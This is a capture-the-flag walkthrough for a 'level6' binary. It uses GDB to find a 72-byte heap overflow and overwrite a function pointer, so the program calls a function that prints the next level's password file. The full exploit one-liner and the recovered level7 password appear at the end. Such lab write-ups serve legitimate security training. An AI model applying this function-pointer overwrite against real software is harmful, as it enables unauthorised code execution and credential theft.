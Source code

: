 # 🚀 Level 6 - Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./level6
Segmentation fault (core dumped)
$ ./level6 test
Nope
```
- 🧾 Program segfaults without args, prints "Nope" with input.
- 🔍 Likely involves a function pointer.

## 🐞 Start it in GDB
```bash
(gdb-peda)$ pdisas main
...
0x080484ae <+50>:	mov    DWORD PTR [eax], 0x8048468  ; buf2 = &m
0x080484c5 <+73>:	call   0x80482d0 <strcpy@plt>
0x080484d0 <+84>:	call   DWORD PTR [buf2]
...
```
- 🧠 It allocates 64 bytes (buf1) and 4 bytes (buf2 = function pointer).
- 📥 Then copies user input to buf1 → potential buffer overflow!
- 💥 Finally calls the function pointer → control flow hijack opportunity!

## 🕵️ Investigate Functions
```bash
(gdb-peda)$ info functions
...
0x08048454  n
0x08048468  m
🧨 m() just prints “Nope”.
🎯 n() runs: system("/bin/cat /home/user/level7/.pass")
```
## 🔍 Discover Offset to Function Pointer
```bash
$ python -c 'print("A"*100)' | ./level6
Segmentation fault

(gdb-peda)$ pattern_create 100
(gdb-peda)$ r $(pattern)
(gdb-peda)$ pattern_offset 0x53535353
72
```
- 🧮 Offset to function pointer = 72 bytes

## 🎯 Goal: Overwrite Function Pointer to Call n()
```bash
(gdb-peda)$ p n
$1 = {<text variable, no debug info>} 0x08048454 <n>
```
✅ n() address: 0x08048454

## 🛠 Build the Payload
```bash
$ python -c 'print("A"*72 + "\x54\x84\x04\x08")' | ./level6
```

## ✅ Final Step - Get the Password
```bash
$ (python -c 'print("A"*72 + "\x54\x84\x04\x08")'; cat -) | ./level6
cat ~level7/.pass
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
🎉 Done.